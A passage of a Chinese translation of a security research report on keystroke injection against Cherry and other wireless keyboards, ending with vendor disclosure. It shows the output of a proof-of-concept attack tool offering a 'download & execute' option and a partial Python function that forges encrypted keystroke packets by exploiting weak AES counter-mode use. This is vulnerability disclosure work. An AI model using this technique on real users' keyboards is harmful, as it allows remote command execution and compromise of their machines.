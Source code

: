 ```
18 [*] Please choose your attack vector (0 to quit)
19 1) Open calc.exe
20 2) Open cmd.exe
21 3) Classic download &amp; execute attack
22 0) Exit
23 [?] Select keystroke injection attack: 3
24 [*] Start keystroke injection ...
25 [*] Done.
```

我们使用自研的Cherry Attack概念验证工具对存在漏洞的Cherry键盘进行攻击，如图20所示。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010ef60ffbc6f3c6b1.png)

如何对AES计数器模式中存在的这种加密问题加以利用呢？其实这并不是一件难事，部分利用代码如清单5.3所示。



```
1 def keyCommand(self , modifiers , keycode1 , keycode2 = KEY_NONE , keycode3 = KEY_NONE , keycode4 = KEY_NONE , keycode5 = KEY_NONE , keycode6 = KEY_NONE):
2 """ Return AES encrypted keyboard data"""
3
4 # generate HID keyboard data
5 plaintext = pack("8B", modifiers , 0, keycode1 , keycode2 , keycode3 ,
6 keycode4 , keycode5 , keycode6)
7
8 # encrypt the data with the set crypto key
9 ciphertext = ""
10 i = 0
11for b in plaintext:
12 ciphertext += chr(ord(b) ^ ord(self.cryptoKey[i]))
13 i += 1
14
15 return ciphertext + self.counter
```

为了演示我们所找到的按键注入漏洞，我们搭建了一个简单的设备，名为SySS Radio Hack Box[32]，这款设备的第一个原型版本如图21所示。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f555e941b62578a7.png)

这个原型设备是在树莓派的基础上搭建而成的，我们手动焊接了一个非常简单的树莓派扩展板，与带有自定义Python脚本的Crazyradio PA搭配使用，如图22所示。

[![](https://p2.ssl.qhimg.com/t012de075c06197027c.png)](https://p2.ssl.qhimg.com/t012de075c06197027c.png)

我们录制了如何使用SySS Radio Hack Box对无线设备实施按键重放注入攻击的视频，并将视频上传到YouTube网站上[33]。

<br>

**六、设备厂商的声明及反馈**

根据我们的漏洞披露计划，我们通过安全公告形式，向所有存在安全漏洞的设备所对应的厂商报告了相关的漏洞信息。
